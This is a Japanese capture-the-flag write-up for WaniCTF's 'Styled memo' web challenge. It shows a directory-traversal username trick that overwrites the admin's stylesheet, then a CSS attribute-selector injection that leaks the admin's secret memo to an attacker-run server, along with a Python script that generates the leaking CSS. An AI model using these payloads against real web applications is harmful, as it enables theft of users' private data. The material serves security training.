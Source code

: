 # Styled memo:Web:350pts
CSSをアップロードすることで見た目を調整可能なメモアプリです！  
[https://styled-memo.web.wanictf.org/](https://styled-memo.web.wanictf.org/)  
[web-styled-memo.zip](web-styled-memo.zip)  

# Solution
メモアプリらしい。  
アクセスし、登録後ログインするとメモを投稿できる。  
メモアプリ  
[site1.png](site/site1.png)  
さらに`ユーザ情報修正`ページもあり、ユーザ名とメモアプリのCSSを変更できる。  
デフォルトのCSSは`https://styled-memo.web.wanictf.org/media/css/root/example.css`のようだ。  
[site2.png](site/site2.png)  
`adminGq8vcIHrにadminGq8vcIHrのメモを確認してもらう`とあることからも予想できるが、adminGq8vcIHrは本人のメモを確認するだけらしい。  
CSSインジェクションであろうことはわかるが、まずはCSSをadminGq8vcIHrに踏ませる必要がある。  
ファイルが多く読むのが面倒だったのでブラックボックスでいろいろ試す。  
修正ページのユーザ名を`Wani`にして`Hack.css`を投稿してみると、トップのソースが以下のようになった。  
```html
~~~
<link href="/media/css/Wani/Hack.css" rel="stylesheet">

<style type="text/css">
  .modal-body {
    white-space: pre-wrap
  }
</style>
~~~
```
`/media/css/ユーザ名/ファイル名`になるようだ(XSSを狙うが特殊文字はエンコードされる)。  
ではユーザ名を`adminGq8vcIHr`にすることでCSSを踏ませられると考えるが、ブロックされる。  
[site3.png](site/site3.png)  
ユーザ名を衝突させなければよいので`../css/adminGq8vcIHr`とすればよいことに気づく。  
これでadminGq8vcIHrのCSSをいじれるようになった。  
flagの場所がわからないとキツイのでソースを眺めると`django/app/master/views.py`で以下のようであった。  
```JavaScript
~~~
        Memo.objects.create(user=admin, title="FLAG", content=os.environ.get("FLAG"))
~~~
```
CSSのファイル名は変更している様子が見られないので、example.cssだろう。  
あとはCSSインジェクションによりadminGq8vcIHrのメモの中身を流出させればよい。  
自身のメモにて確認すると以下のように属性値にメモの中身が入っている。  
```html
~~~
<button type="button" class="btn btn-primary btn-memo-detail" data-toggle="modal" data-target="#memoContentModal" data-title="___φ(｡_｡*)ﾒﾓﾒﾓ" data-content=".....φ(｡_｡*)ﾒﾓﾒﾓ" data-editurl="/memo/470">詳細</button>
~~~
```
Attribute selectorで行う初歩CSSiのようだ。  
サーバーを立て、次のようなCSSを`/media/css/adminGq8vcIHr/example.css`にアップロードして確認してもらうボタンを押せばよい。  
```css
button[data-content^='FLAG{a'] {background-image: url('https://myserver.example.com/?FLAG{a');}
button[data-content^='FLAG{b'] {background-image: url('https://myserver.example.com/?FLAG{b');}
button[data-content^='FLAG{c'] {background-image: url('https://myserver.example.com/?FLAG{c');}
button[data-content^='FLAG{d'] {background-image: url('https://myserver.example.com/?FLAG{d');}
button[data-content^='FLAG{e'] {background-image: url('https://myserver.example.com/?FLAG{e');}
button[data-content^='FLAG{f'] {background-image: url('https://myserver.example.com/?FLAG{f');}
button[data-content^='FLAG{g'] {background-image: url('https://myserver.example.com/?FLAG{g');}
button[data-content^='FLAG{h'] {background-image: url('https://myserver.example.com/?FLAG{h');}
button[data-content^='FLAG{i'] {background-image: url('https://myserver.example.com/?FLAG{i');}
button[data-content^='FLAG{j'] {background-image: url('https://myserver.example.com/?FLAG{j');}
~~~
```
自身のサーバのアクセスから、一文字ずつflagをリークできる。  
二文字ずつリークするexample.cssを作るコードは以下になる。  
```python:css_gen.py
import string

url = "https://myserver.example.com"
c_flag = "FLAG{"

with open("example.css", mode="w") as f:
    for i in  string.ascii_letters + string.digits + "_-.$@!?":
        for j in  string.ascii_letters + string.digits + "_-.$@!?":
            f.write(f"button[data-content^='{c_flag}{i}{j}'] {{background-image: url('{url}/?{c_flag}{i}{j}');}}\n")
```
![gets.png](images/gets.png)  
flagが取得できた。  

## FLAG{CSS_Injecti0n_us1ng_d1r3ctory_tr@versal}